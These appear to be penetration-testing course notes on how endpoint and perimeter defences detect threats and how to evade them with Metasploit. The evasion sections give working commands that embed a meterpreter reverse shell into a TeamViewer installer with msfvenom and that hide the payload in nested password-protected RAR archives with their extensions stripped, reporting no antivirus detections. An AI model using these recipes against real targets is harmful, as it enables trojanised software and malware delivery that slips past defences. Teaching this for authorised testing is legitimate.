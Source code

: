 To better learn how we can efficiently and quietly attack a target, we first need to understand better how that target is defended. We are introduced to two new terms:
- Endpoint protection
- Perimeter protection

## Endpoint Protection
`Endpoint protection` refers to any localized device or service whose sole purpose is to protect a single host on the network. The host can be a personal computer, a corporate workstation, or a server in a network's De-Militarized Zone (`DMZ`).
Endpoint protection usually comes in the form of software packs which include `Antivirus Protection`, `Antimalware Protection` (this includes bloatware, spyware, adware, scareware, ransomware), `Firewall`, and `Anti-DDOS` all in one, under the same software package.

#### Perimeter Protection
`Perimeter protection` usually comes in physical or virtualized devices on the network perimeter edge. These `edge devices` themselves provide access `inside` of the network from the `outside`, in other terms, from `public` to `private`.
Between these two zones, on some occasions, we will also find a third one, called the De-Militarized Zone (`DMZ`), which was mentioned previously. This is a `lower-security policy level` zone than the `inside networks'` one, but with a higher `trust level` than the `outside zone`, which is the vast Internet.

## Security Policies
Security policies are the drive behind every well-maintained security posture of any network.
They are essentially a list of `allow` and `deny` statements that dictate how traffic or files can exist within a network boundary. Multiple lists can act upon multiple network parts, allowing for flexibility within a configuration. These lists can also target different features of the network and hosts, depending on where they reside:
- Network Traffic Policies
- Application Policies
- User Access Control Policies
- File Management Policies
- DDoS Protection Policies
- Others


There are multiple ways to match an event or object with a security policy entry:

| **Security Policy**                         | **Description**                                                                                                                                                                                                                                                                                                                   |
| ------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `Signature-based Detection`                 | The operation of packets in the network and comparison with pre-built and pre-ordained attack patterns known as signatures. Any 100% match against these signatures will generate alarms.                                                                                                                                         |
| `Heuristic / Statistical Anomaly Detection` | Behavioral comparison against an established baseline included modus-operandi signatures for known APTs (Advanced Persistent Threats). The baseline will identify the norm for the network and what protocols are commonly used. Any deviation from the maximum threshold will generate alarms.                                   |
| `Stateful Protocol Analysis Detection`      | Recognizing the divergence of protocols stated by event comparison using pre-built profiles of generally accepted definitions of non-malicious activity.                                                                                                                                                                          |
| `Live-monitoring and Alerting (SOC-based)`  | A team of analysts in a dedicated, in-house, or leased SOC (Security Operations Center) use live-feed software to monitor network activity and intermediate alarming systems for any potential threats, either deciding themselves if the threat should be actioned upon or letting the automated mechanisms take action instead. |

## Evasion Techniques
Most host-based anti-virus software nowadays relies mainly on `Signature-based Detection` to identify aspects of malicious code present in a software sample. These signatures are placed inside the Antivirus Engine, where they are subsequently used to scan storage space and running processes for any matches. When a piece of unknown software lands on a partition and is matched by the Antivirus software, most Anti-viruses quarantine the malicious program and kill the running process.

The examples shown in the `Encoders` section show that simply encoding payloads using different encoding schemes with multiple iterations is not enough for all AV products. Moreover, merely establishing a channel of communication between the attacker and the victim can raise some alarms with the current capabilities of IDS/IPS products out there.

However, with the MSF6 release, msfconsole can tunnel AES-encrypted communication from any Meterpreter shell back to the attacker host, successfully encrypting the traffic as the payload is sent to the victim host. This mostly takes care of the network-based IDS/IPS.

Returning to msfconsole, its capability to now sustain AES-encrypted tunnels, together with Meterpreter's feature of running in memory, raises our capability by a margin. However, we still have the issue of what happens to a payload once it reaches its destination, before it is run and placed into memory. This file could be fingerprinted for its signature, matched against the database, and blocked, together with our chances of accessing the target. We can also be sure that AV software developers are looking at msfconsole modules and capabilities to add the resulting code and files to their signature database, resulting in most if not all of the default payloads being immediately shut down by AV software nowadays.

We are in luck because `msfvenom` offers the option of using executable templates. This allows us to use some pre-set templates for executable files, inject our payload into them (no pun intended), and use `any` executable as a platform from which we can launch our attack. We can embed the shellcode into any installer, package, or program that we have at hand, hiding the payload shellcode deep within the legitimate code of the actual product. This greatly obfuscates our malicious code and, more importantly, lowers our detection chances.

Take a look at the snippet below to understand how msfvenom can embed payloads into any executable file:
```shell
msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -x ~/Downloads/TeamViewer_Setup.exe -e x86/shikata_ga_nai -a x86 --platform windows -o ~/Desktop/TeamViewer_Setup.exe -i 5
```

For the most part, when a target launches a backdoored executable, nothing will appear to happen, which can raise suspicions in some cases. To improve our chances, we need to trigger the continuation of the normal execution of the launched application while pulling the payload in a separate thread from the main application. We do so with the `-k` flag as it appears above. However, even with the `-k` flag running, the target will only notice the running backdoor if they launch the backdoored executable template from a CLI environment. If they do so, a separate window will pop up with the payload, which will not close until we finish running the payload session interaction on the target.

## Archives
Archiving a piece of information such as a file, folder, script, executable, picture, or document and placing a password on the archive bypasses a lot of common anti-virus signatures today. However, the downside of this process is that they will be raised as notifications in the AV alarm dashboard as being unable to be scanned due to being locked with a password. An administrator can choose to manually inspect these archives to determine if they are malicious or not.

#### Generating Payload
```shell
msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -e x86/shikata_ga_nai -a x86 --platform windows -o ~/test.js -i 5
```
Now, try archiving it two times, passwording both archives upon creation, and removing the `.rar`/`.zip`/`.7z` extension from their names. For this purpose, we can install the [RAR utility](https://www.rarlab.com/download.htm) from RARLabs, which works precisely like WinRAR on Windows.

#### Archiving the Payload
```shell-session
 wget https://www.rarlab.com/rar/rarlinux-x64-612.tar.gz
```
```shell-session
tar -xzvf rarlinux-x64-612.tar.gz && cd rar
```
```shell-session
rar a ~/test.rar -p ~/test.js
```

#### Removing the .RAR Extension
```shell-session
mv test.rar test
```

#### Archiving the Payload Again
```shell-session
rar a test2.rar -p test
```
#### Removing the .RAR Extension
```shell-session
mv test2.rar test2
```

AV Detection Results : 0/49
As we can see from the above, this is an excellent way to transfer data both `to` and `from` the target host.

## Packers
The term `Packer` refers to the result of an `executable compression` process where the payload is packed together with an executable program and with the decompression code in one single file.



